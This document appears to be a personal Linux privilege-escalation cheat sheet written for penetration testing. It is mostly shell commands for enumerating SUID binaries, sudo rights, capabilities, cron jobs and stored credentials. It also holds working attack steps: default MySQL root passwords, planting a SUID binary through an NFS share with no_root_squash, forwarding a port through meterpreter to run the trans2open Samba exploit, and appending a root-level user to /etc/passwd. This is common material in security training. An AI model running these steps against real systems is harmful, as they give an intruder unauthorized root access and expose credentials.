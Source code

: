 My path to manually PE: 

CApabilities: 
which gcc
which cc
which python
which perl
which wget
which curl
which fetch
which nc
which ncat
which nc.traditional
which socat

Compilation? (Very Back Burner)
file /bin/bash
uname -a
cat /etc/*-release
cat /etc/issue


What Arch?
file /bin/bash

Kernel?
uname -a

Issue/Release?
cat /etc/issue
cat /etc/*-release

Are we a real user?
sudo -l
ls -lsaht /etc/sudoers

Are any users a member of exotic groups?
groups <user>


Check out your shell's environment variables...
env
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

Users?
cd /home/
ls -lsaht

Web Configs containing credentials?
cd /var/www/html/
ls -lsaht

SUID Binaries?
find / -perm -u=s -type f 2>/dev/null

GUID Binaries?
find / -perm -g=s -type f 2>/dev/null

SUID/GUID/SUDO Escalation:
https://gtfobins.github.io/

Binary/Languages with "Effective Permitted" or "Empty Capability" (ep):
https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities
Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null.
getcap -r / 2>/dev/null


We need to start monitoring the system if possible while performing our enumeration...
https://github.com/DominicBreuker/pspy/blob/master/README.md
cd /var/tmp/
File Transfer --> pspy32
File Transfer --> pspy64
chmod 755 pspy32 pspy64
./pspy<32/64>

What does the local network look like?
netstat -antup
netstat -tunlp

Is anything vulnerable running as root?
ps aux | grep -i 'root' --color=auto

MYSQL Credentials? Root Unauthorized Access?
mysql -uroot -p
Enter Password:
root : root
root : toor
root :

A quick look at etc to see if any user-level people did special things:
cd /etc/
ls -lsaht
Anything other than root here?
• Any config files left behind?
→ ls -lsaht |grep -i ‘.conf’ --color=auto

• If we have root priv information disclosure - are there any .secret in /etc/ files?
→ ls -lsaht |grep -i ‘.secret’ --color=aut

SSH Keys I can use perhaps for even further compromise?
ls -lsaR /home/

Quick look in:
ls -lsaht /var/lib/
ls -lsaht /var/db/

Quick look in:
ls -lsaht /opt/
ls -lsaht /tmp/
ls -lsaht /var/tmp/
ls -lsaht /dev/shm/

File Transfer Capability? What can I use to transfer files?
which wget
which curl
which nc
which fetch (BSD)
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

NFS? Can we exploit weak NFS Permissions?
cat /etc/exports
no_root_squash?
https://recipeforroot.com/attacking-nfs-shares/

[On Attacking Machine]
mkdir -p /mnt/nfs/
mount -t nfs -o vers=<version 1,2,3> $IP:<NFS Share> /mnt/nfs/ -nolock
gcc suid.c -o suid
cp suid /mnt/nfs/
chmod u+s /mnt/nfs/suid
su <user id matching target machine's user-level privilege.>

[On Target Machine]
user@host$ ./suid
#

Where can I live on this machine? Where can I read, write and execute files?
/var/tmp/
/tmp/
/dev/shm/

Any exotic file system mounts/extended attributes?
cat /etc/fstab

Forwarding out a weak service for root priv (with meterpreter!):
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port.
https://www.offensive-security.com/metasploit-unleashed/portfwd/

Forwarding out netbios-ssn EXAMPLE:
meterpreter> portfwd add –l 139 –p 139 –r [target remote host]
meterpreter> background
use exploit/linux/samba/trans2open
set RHOSTS 0.0.0.0
set RPORT 139
run

Can we write as a low-privileged user to /etc/passwd?
openssl passwd -1
i<3hacking
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd
su siren
id

Cron.
crontab –u root –l

Look for unusual system-wide cron jobs:
cat /etc/crontab
ls /etc/cron.*

Bob is a user on this machine. What is every single file he has ever created?
find / -user miguel 2>/dev/null

Any mail? mbox in User $HOME directory?
cd /var/mail/
ls -lsaht